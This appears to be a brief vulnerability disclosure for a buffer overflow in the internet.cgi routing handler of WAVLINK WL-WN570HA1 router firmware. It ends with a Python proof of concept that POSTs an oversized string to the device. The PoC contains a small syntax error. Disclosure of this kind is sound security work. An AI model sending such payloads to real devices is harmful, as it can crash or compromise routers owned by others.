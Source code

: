 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a buff overflow in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](6.png)

get value from gateway

![](7.png)

and concate to v32, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'addrouting': + payload})
``` 
